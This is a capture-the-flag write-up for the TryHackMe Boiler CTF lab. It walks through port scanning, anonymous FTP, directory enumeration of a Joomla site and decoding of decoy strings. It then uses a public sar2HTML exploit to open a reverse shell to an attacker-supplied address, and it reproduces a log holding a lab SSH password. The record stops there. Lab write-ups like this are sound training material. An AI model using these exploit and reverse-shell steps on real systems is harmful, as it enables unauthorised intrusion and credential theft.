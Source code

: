 # Boiler CFT
link to the machine: https://tryhackme.com/r/room/boilerctf2

let's start with network scanning
~~~
nmap -sV -Pn 10.10.70.176 -p-
~~~
output:
~~~
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~
### Question 2: What is on the highest port?
> ssh

### Question 3: What's running on port 10000?
> webmin

we found various services. Let's first try to log in with anonymous user to ftp service and search for some interesting files
~~~
ftp anonymous@10.10.70.176 
Connected to 10.10.70.176.
220 (vsFTPd 3.0.3)
230 Login successful.
~~~
there is an hidden file called info.txt:
~~~
ftp> ls -la
229 Entering Extended Passive Mode (|||49347|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
~~~
### Question 1: file extension after anon login
>txt

the file contains this message:
> Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!

the message seems to be encrypted with ROT13, let's try to decrypt it using cyberchef
> Just wanted to see if you find it. Lol. Remember: Enumeration is the key!

Ok now we start enumerate Apache server with gobuster:
~~~
gobuster dir -u http://10.10.70.176 -w /usr/share/wordlists/dirb/common.txt -t 50
~~~
We found some directory, and we found a joomla cms
~~~
/index.html
/joomla
/manual           
/robots.txt 
~~~
In robots.txt we have some rabbit hole folders and an ascii string:
~~~
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
~~~
try to decode it
~~~
OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK
~~~
it seems base 64
~~~
99b0660cd95adea327c54182baa51584
~~~
try to crack MD5 hash
~~~
kidding
~~~
Oh no, another rabbit hole

Now we can try enumerating joomla cms
~~~
gobuster dir -u http://10.10.70.176/joomla/ -w /usr/share/wordlists/dirb/common.txt -t 50
~~~
~~~
/.htaccess            (Status: 403) [Size: 303]
/.hta                 (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 303]
/_archive             (Status: 301) [Size: 322] [--> http://10.10.70.176/joomla/_archive/]
/_database            (Status: 301) [Size: 323] [--> http://10.10.70.176/joomla/_database/]
/_files               (Status: 301) [Size: 320] [--> http://10.10.70.176/joomla/_files/]
/_test                (Status: 301) [Size: 319] [--> http://10.10.70.176/joomla/_test/]
/~www                 (Status: 301) [Size: 318] [--> http://10.10.70.176/joomla/~www/]
/administrator        (Status: 301) [Size: 327] [--> http://10.10.70.176/joomla/administrator/]
/bin                  (Status: 301) [Size: 317] [--> http://10.10.70.176/joomla/bin/]
/build                (Status: 301) [Size: 319] [--> http://10.10.70.176/joomla/build/]
/cache                (Status: 301) [Size: 319] [--> http://10.10.70.176/joomla/cache/]
/components           (Status: 301) [Size: 324] [--> http://10.10.70.176/joomla/components/]
/images               (Status: 301) [Size: 320] [--> http://10.10.70.176/joomla/images/]
/includes             (Status: 301) [Size: 322] [--> http://10.10.70.176/joomla/includes/]
/installation         (Status: 301) [Size: 326] [--> http://10.10.70.176/joomla/installation/]
/index.php            (Status: 200) [Size: 12478]
/language             (Status: 301) [Size: 322] [--> http://10.10.70.176/joomla/language/]
/layouts              (Status: 301) [Size: 321] [--> http://10.10.70.176/joomla/layouts/]
/libraries            (Status: 301) [Size: 323] [--> http://10.10.70.176/joomla/libraries/]
/media                (Status: 301) [Size: 319] [--> http://10.10.70.176/joomla/media/]
/modules              (Status: 301) [Size: 321] [--> http://10.10.70.176/joomla/modules/]
/plugins              (Status: 301) [Size: 321] [--> http://10.10.70.176/joomla/plugins/]
/templates            (Status: 301) [Size: 323] [--> http://10.10.70.176/joomla/templates/]
/tests                (Status: 301) [Size: 319] [--> http://10.10.70.176/joomla/tests/]
/tmp                  (Status: 301) [Size: 317] [--> http://10.10.70.176/joomla/tmp/]
~~~
In the /_test folder i found sar2HTML, searching on google i found a github repo for expolit it: https://github.com/AssassinUKG/sar2HTML

~~~
python3 sar2HTMLshell.py -ip <machine vulnerable>/joomla/_test/index.php -rip <machine target>:<port> -pe sar2HTML
~~~
Now with rs session we start a revshell as wwwdata user.
Running ls command in the folder /var/www/html/joomla/_test
~~~
-rwxr-xr-x  1 www-data www-data  716 Aug 21  2019 log.txt
~~~
~~~
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.

~~~


